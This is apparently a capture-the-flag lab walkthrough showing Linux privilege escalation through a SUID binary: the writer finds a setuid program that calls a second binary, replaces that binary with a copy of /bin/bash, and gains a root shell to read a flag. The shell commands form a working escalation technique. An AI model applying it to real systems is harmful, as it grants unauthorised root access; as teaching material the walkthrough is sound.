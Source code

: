 ```shell
ls -l
cat flag
```

<br>

# Exploiting SUID Binaries

Vulnerable setuid on Linux systems could lead to privilege escalation attacks.

```shell
ls -l
# We see two binaries there, greeting and welcome. We can also notice the 's' which stands from SUID permission.
# -rwsr-xr-x 1 root root 8344 Sep 22 2018 welcome
```

Observe that the welcome binary has suid bit set (or on). This means that this binary and its child processes will run with root privileges. Check the file type.

```shell
file welcome
./greetings # We don't have the permission for this binary
# But we have for
./welcome
```

Investigate the binary. The most easy or preliminary way of doing that is to use strings command.

```shell
strings welcome
# We can see 'greetings' that it calls upon the greetings binary which is very interesting
```

Observe the greetings strings in the output of the strings command. It is possible that welcome binary is calling greetings binary. So, replace the greetings binary with some other binary (say /bin/bash) which should then also get executed as root.

```shell
# Delete greetings binary and then copy /bin/bash to its location and rename that to greetings.
rm greetings
cp /bin/bash greetings
ls

# Then, run the welcome binary again.
./welcome # Execute the bash with root privileges
id
whoami
```

Student user got escalate to root user. Retrieve the flag kept in /root directory.

```shell
ls
cat flag
```
